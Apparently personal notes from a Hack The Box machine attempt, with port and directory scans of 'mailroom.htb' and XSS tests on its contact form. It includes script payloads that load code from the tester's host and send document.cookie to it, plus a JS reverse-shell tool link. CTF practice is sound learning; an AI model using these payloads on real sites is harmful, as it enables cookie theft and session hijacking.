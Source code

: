 └─$ nmap 10.10.11.219
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 22:00 EDT
Nmap scan report for 10.10.11.219
Host is up (0.56s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 73.85 se

mailroom.htb

we will add that to /etc/hosts

dirb mailroom.htb

gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

there is a contact.php tho

![](20230701233408.png)

has an xss!

has two xsss

its a manual review so lets see if the xss can connect back 

dirb result

```
----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://mailroom.htb/ ----
==> DIRECTORY: http://mailroom.htb/assets/                                                                         
==> DIRECTORY: http://mailroom.htb/css/                                                                            
==> DIRECTORY: http://mailroom.htb/font/                                                                           
+ http://mailroom.htb/index.php (CODE:200|SIZE:7748)                                                               
==> DIRECTORY: http://mailroom.htb/inquiries/                                                                      
==> DIRECTORY: http://mailroom.htb/javascript/                                                                     
==> DIRECTORY: http://mailroom.htb/js/                                                                             
+ http://mailroom.htb/server-status (CODE:403|SIZE:277)                                                            
+ http://mailroom.htb/template (CODE:403|SIZE:277)                                                                 
                                                                                                                   
---- Entering directory: http://mailroom.htb/assets/ ----
+ http://mailroom.htb/assets/favicon.ico (CODE:200|SIZE:134582)                                                    
                                                                                                                   
---- Entering directory: http://mailroom.htb/css/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/font/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/inquiries/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/ ----
==> DIRECTORY: http://mailroom.htb/javascript/jquery/                                                              
                                                                                                                   
---- Entering directory: http://mailroom.htb/js/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/jquery/ ----
+ http://mailroom.htb/javascript/jquery/jquery (CODE:200|SIZE:287600)                                              
                                                                        
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mailroom.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/01 22:29:02 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://mailroom.htb/assets/]
/css                  (Status: 301) [Size: 310] [--> http://mailroom.htb/css/]
/template             (Status: 403) [Size: 277]
/js                   (Status: 301) [Size: 309] [--> http://mailroom.htb/js/]
/javascript           (Status: 301) [Size: 317] [--> http://mailroom.htb/javascript/]
/font                 (Status: 301) [Size: 311] [--> http://mailroom.htb/font/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/07/02 01:49:02 Finished
===============================================================

```


```
POST /contact.php HTTP/1.1
Host: mailroom.htb
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://mailroom.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mailroom.htb/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=ashwin%40instagram.com&title=ashwin&message=ashwin
```

<img src="10.10.16.24:8000/test.jpg" /> <script src="http://10.10.16.24:8000/cookie.js"></script>

![](20230702070727.png)

getting this

no cookie

so maybe we can try

https://github.com/shelld3v/JSshell

jsh.py -g

<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.16.24:4848/?".concat(document.cookie)},1010)</script>

it does give us a shell but for what?

![](20230702101704.png)

need to look for alternatives.

so obviously this is different from pilgrimae as we know it

this is mailroom htb.
and there is already a machine called mailroom so! maybe they goofed up the machines?

yes they did

![](20230702102326.png)

hahaha. anywhoo.


